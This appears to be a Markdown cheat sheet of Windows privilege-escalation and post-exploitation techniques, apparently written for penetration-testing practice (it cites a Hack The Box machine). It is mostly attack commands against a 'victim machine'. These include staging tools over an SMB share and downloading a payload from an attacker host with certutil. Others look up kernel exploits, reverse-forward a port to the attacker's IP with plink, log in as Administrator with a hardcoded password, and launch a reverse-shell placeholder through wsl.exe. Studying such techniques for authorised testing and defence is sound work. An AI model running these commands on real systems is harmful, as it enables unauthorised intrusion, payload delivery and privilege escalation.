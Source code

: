 **Tools Delivery**
- Create a SMB Server in you machine.
- `impacket-smbserver.py <shareName> <sharePath> -smb2support`
	- where, shareName is the name to which SMB will be connected and sharePath is the directory to which attacker is hosting, '.' to host current directory.
- In victim machine,
- Connect
	- `net use \\[host]\[shareName]`
- Copy the file to victim
	- `copy \\[host]\[shareName]\tools.exe \windows\temp\a.exe`
- Close the connection
	- `net use /d \\[host]\[shareName]`
- For more ways to transfer the files: https://medium.com/@dr.spitfire/ocsp-file-transfer-recipe-for-delicious-post-exploitation-a407e00f7346
- We can also use certutil to download the file from windows cmd.
- In attacker machine
	- `python3 -m http.server 1337`
- In victim's machine
	- `certutil -urlcache -f http://<attacker-ip>:1337/test.exe test.exe`

## Escalation Path: Kernel Exploits
**Escalation with Metasploit**
- After Metrepreter
	- `run post/multi/recon/local_exploit_suggester`

**Manual Kernel Exploitation**
- In windows PS
	- `systeminfo`
	- Copy the data from above commands.
- In attacker machine
	- Save the data in a text file
	- `windows-exploit-suggester.py --database <db-date>.xlsx --systeminfo systeminfo.txt `
- Windows Kernel Exploits - https://github.com/SecWiki/windows-kernel-exploits

## Escalation Path: Stored Passwords and Port Forwarding
 - Sometimes there are servies that are only accessible from inside the nnetwork. These services might be vulnerable since they are not meant to be seen from the outside
 - View such ports cmd: `netstat -ano`, suppose you got port 445
 - Open an SSH server on an attacker machine
- Fort port using [plink](https://www.chiark.greenend.org.uk/~sgtatham/putty/latest.html) in windows
	- `plink.exe -l <attackerusername> -pw <attackerpassword> <attackerIP> -R 445:127.0.0.1:445`
- `winexe -U Administrator%Welcome1! //127.0.0.1 "cmd.exe"`

## Escalation Path: Windows Subsystem for Linux
- Find out if wsl.exe and bash.exe exists on the windows machine.
	- `where /R c:\windows bash.exe`
	- `where /R c:\windows wsl.exe`
- Check if wsl.exe returns root
	- `wsl.exe whoami`
	- `wsl.exe python -c 'BIND_OR_REVERSE_SHELL_PYTHON_CODE'`
- HTB to practice "SecNotes"
